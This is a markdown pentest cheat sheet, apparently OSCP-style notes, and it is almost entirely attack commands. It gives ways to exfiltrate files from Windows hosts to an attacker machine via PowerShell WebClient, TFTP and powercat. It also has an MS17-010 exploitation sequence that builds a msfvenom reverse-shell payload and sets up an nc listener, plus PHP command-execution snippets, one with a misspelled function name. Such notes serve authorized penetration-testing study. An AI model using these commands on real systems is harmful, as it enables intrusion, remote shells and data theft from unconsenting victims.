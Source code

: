 Upload file in Windows client
```
powershell (New-Object System.Net.WebClient).UploadFile('http://<IP>/upload.php', '<FILE>')
```

#### Upload through tftp (over udp)
Install tftp on kali
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

On windows client to send file
```
tftp -i 10.11.0.4 put important.docx
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

# Misc
#### MS17-010
```
git clone https://github.com/helviojunior/MS17-010
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
nc -lnvp <PORT>
python send_and_execute.py <TARGET IP> ms17-010.exe
```

#### PHP Execute commands
```
<?php
// Return the listing of the directory where the file runs (Windows)
system("dir");
?>
```
```
<?php
// Executes but returns nothing
exec("ls -la");
?>
```
```
<?php
// Executes, returns the entire output as a string
echo shell_exec("ls -la");
?>
```
```
<?php
// Executes, returns output in raw format
passsthru("ls -la");
?>
```

